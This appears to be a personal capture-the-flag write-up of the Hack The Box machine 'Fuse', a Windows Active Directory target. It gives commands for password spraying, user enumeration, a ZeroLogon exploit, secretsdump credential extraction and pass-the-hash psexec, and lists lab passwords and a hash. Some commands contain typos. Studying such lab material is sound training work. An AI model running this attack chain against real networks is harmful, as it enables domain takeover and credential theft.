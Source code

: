 # Enumeration - open ports

```
53/tcp   open  domain       Simple DNS Plus                                                                    
80/tcp   open  http         Microsoft IIS httpd 10.0                                                           
|_http-server-header: Microsoft-IIS/10.0                                                                       
| http-methods:                                                                                                
|   Supported Methods: OPTIONS TRACE GET HEAD POST                                                             
|_  Potentially risky methods: TRACE                                                                           
|_http-title: Site doesn't have a title (text/html).                                                           
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-02-27 19:12:26Z)                     
135/tcp  open  msrpc        Microsoft Windows RPC                                                              
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn                                                      
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)             
464/tcp  open  kpasswd5?                                                                                       
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0                                                
636/tcp  open  tcpwrapped                                                                                      
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped                                                                                      
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows                                           
                                                                                                               
Host script results:                                                                                           
| smb2-security-mode:                                                                                          
|   311:                                                                                                       
|_    Message signing enabled and required                                                                     
| smb-os-discovery:                                                                                            
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)                                                 
|   Computer name: Fuse        
|   NetBIOS computer name: FUSE\x00                            
|   Domain name: fabricorp.local                               
|   Forest name: fabricorp.local                                   
|   FQDN: Fuse.fabricorp.local                                          
|_  System time: 2023-02-27T11:12:36-08:00                              
| smb-security-mode:                
|   account_used: <blank>           
|   authentication_level: user                                                
|   challenge_response: supported                                             
|_  message_signing: required                                                 
|_clock-skew: mean: 2h53m01s, deviation: 4h37m09s, median: 12m59s                                                                                            
| smb2-time:                                   
|   date: 2023-02-27T19:12:35                                                                 
|_  start_date: 2023-02-27T19:11:04
```
## Port 53
No zone transfer so far 

## port 445
Anonymous login failed
![[Pasted image 20230227210943.png]]


## Port 80
![[Pasted image 20230227210334.png]]
add domain to hosts file
`echo '10.129.2.5 fuse.fabricorp.local' | sudo tee -a /etc/hosts`
![[Pasted image 20230227210640.png]]
running feroxbuster
`eroxbuster -n -u http://fuse.fabricorp.local/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt`
checking html data found some possible usernames
![[Pasted image 20230227211048.png]]
gathering all words inside website to create Users/Passwords list 
pmerton
tlavel
sthompson
bhult
administrator
FUSE
using cewl to generate  passwords from website
`cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers > passwords.txt `
running crackmapexec to see if there is any valid creds
`cme smb $ip -u username-passwords.txt -p passwords.txt --shares --continue-on-success`
![[Pasted image 20230227225846.png]]
![[Pasted image 20230227225905.png]]
running kerbrute found some valid usernames
bhult:Fabricorp01
tlavel:Fabricorp01
![[Pasted image 20230228064210.png]]

`kerbrute userenum -d fabric.local --dc $ip usernames-passwords.txt`
![[Pasted image 20230227232441.png]]
using cewl to create passwords
`cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbbers >passwords`
after trying for a while to change password for users we found with valid passwords earlier without success getting into htb pwnbox and worked e.e probably cos of version missmatch

# Foothold 

![[Pasted image 20230228070013.png]]
![[Pasted image 20230228070107.png]]
inside rpcclient we can enumurate more users
`rpcclient -U tlavel $ip`
![[Pasted image 20230228070911.png]]
checking for printers info inside rpcclient found password in description 
![[Pasted image 20230228072159.png]]
password spraying using crackmapexec
![[Pasted image 20230228072512.png]]

# Privesc
`evil-winrm -i $ip -u svc-print -p '$fab@s3Rv1ce$1'`
![[Pasted image 20230228073055.png]]
## svc-print -> Root
running PowerUp.ps1 script and using Invoke-AllChecks
from evil-wirm upload PowerUp and run it 
```
upload PowerUp.ps1
. .\PowerUp.ps1
Invoke-AllChecks
```
![[Pasted image 20230228073850.png]]
SeLoadDriverPrivilege privesc using capcom
[EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)
[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
[ExploitCapcom](https://github.com/tandasat/ExploitCapcom)


# Alternative root
![[ZeroLogon]]


`python3 cve-2020-1472-exploit.py Fuse $ip`
`secretsdump.py -just-dc fabricorp.local/Fuse\$@$ip`
`psexec.py administrator@$ip -hashes 'aad3b435b51404eeaad3b435b51404ee:370ddcf45959b2293427baa70376e14e'`
![[Pasted image 20230228075310.png]]
![[Pasted image 20230228075321.png]]
![[Pasted image 20230228075509.png]]

# Loot

users with same password:
	usernames: bhult, tlavel
	password:`Fabricorp01`

winrm svc-print user:
	username: `svc-print`
	password: `$fab@s3Rv1ce$1`


---
Tags: #ctf #AD 
Resources: 
[Fuse](https://app.hackthebox.com/machines/256)